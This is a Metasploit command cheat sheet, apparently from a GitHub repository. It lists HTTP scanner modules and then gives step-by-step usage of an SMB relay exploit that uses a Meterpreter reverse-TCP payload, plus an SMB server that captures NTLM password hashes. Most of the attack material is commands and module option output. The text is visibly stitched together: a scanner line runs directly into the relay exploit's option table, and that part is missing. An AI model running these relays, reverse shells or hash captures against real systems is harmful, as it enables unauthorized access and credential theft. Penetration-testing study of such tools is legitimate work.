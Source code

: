 # Metasploit

TODO: Help me organize these modules to specific categories

```
msf > use auxiliary/scanner/http/scraper

msf auxiliary(scanner/http/scraper) > options

Module options (auxiliary/scanner/http/scraper):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   PATH     /                    yes       The test path to the page to analize
   PATTERN  <title>(.*)</title>  yes       The regex to use (default regex is a sample to grab page title)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80                   yes       The target port (TCP)
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                    yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(scanner/http/scraper) > set path <uri_path>

msf auxiliary(scanner/http/scraper) > set pattern <regex>

msf auxiliary(scanner/http/scraper) > set threads 2

msf auxiliary(scanner/http/scraper) > set rhosts <target_IP_1>,<target_IP_2>,<target_IP_n>

msf auxiliary(scanner/http/scraper) > set rport <PORT>

msf auxiliary(scanner/http/scraper) > run
```

`msf > use auxiliary/scanner/http/http_hsts`

`msf > use auxiliary/scanner/http/title`

`msf > use auxiliary/scanner/http/http_header`

`msf > use auxiliary/scanner/http/host_header_injection`

`msf > use auxiliary/scanner/http/lucky_punch`

`msf > use auxiliary/scanner/http/verb_auth_bypass`

`msf > use auxiliary/scanner/http/open_proxy`

`msf > use auxiliary/scanner/http/options`

`msf > use auxiliary/scanner/http/enum_wayback`

`msf > use auxiliary/scanner/http/backup_file`

Apache Tomcat

`msf > use auxiliary/scanner/http/tomcat_enum`

Office 365

`msf > use auxiliary/gather/office365userenum`

`msf > use auxiliary/scanner/http/docker_version`

`msf > use auxiliary/scanner/http/git_scanner`

`msf > use auxiliary/scanner/http/svn_scanner`                    yes       Target address range or CIDR identifier to relay to
   RELAY_TIMEOUT         25               yes       Seconds that the relay socket will wait for a response after the client has initiated communication.
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             WORKGROUP        yes       The domain name used during SMB exchange.
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SRVHOST               0.0.0.0          yes       The local host to listen on.
   SRVPORT               445              yes       The local port to listen on.
   SRV_TIMEOUT           25               yes       Seconds that the server socket will wait for a response after the client has initiated communication.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/smb/smb_relay) > set relay_targets <target1_IP>,<target2_IP>

msf exploit(windows/smb/smb_relay) > set johnpwfile ./relay_output.txt

msf exploit(windows/smb/smb_relay) > exploit
```

### 2.2 - Metasploit auxiliary module SMB server

```
msf > use auxiliary/server/capture/smb

msf auxiliary(server/capture/smb) > options

Module options (auxiliary/server/capture/smb):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CAINPWFILE                   no        Name of file to store Cain&Abel hashes in. Only supports NTLMv1 hashes. Can be a path.
   CHALLENGE                    no        The 8 byte server challenge. Set values must be a valid 16 character hexadecimal pattern. If unset a valid random challenge is
                                           used.
   JOHNPWFILE                   no        Name of file to store JohnTheRipper hashes in. Supports NTLMv1 and NTLMv2 hashes, each of which is stored in separate files. C
                                          an also be a path.
   SMBDomain   WORKGROUP        yes       The domain name used during SMB exchange.
   SRVHOST     0.0.0.0          yes       The local host to listen on.
   SRVPORT     445              yes       The local port to listen on.
   TIMEOUT     5                yes       Seconds that the server socket will wait for a response after the client has initiated communication.


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run SMB capture server



View the full module info with the info, or info -d command.

msf auxiliary(server/capture/smb) > set johnpwfile <hashes.txt>

msf auxiliary(server/capture/smb) > set srvhost <IP>

msf auxiliary(server/capture/smb) > set srvport <PORT>

msf auxiliary(server/capture/smb) > run
```

## References

- [Run ARP Poisoning Attacks with Metasploit and Detect Them with Wireshark](https://fabian-voith.de/2020/04/24/run-arp-poisoning-attacks-with-metasploit-and-detect-them-with-wireshark/)

- [Using Metasploit SMB Sniffer Module](https://blog.carnal0wnage.com/2009/04/using-metasploit-smb-sniffer-module.html)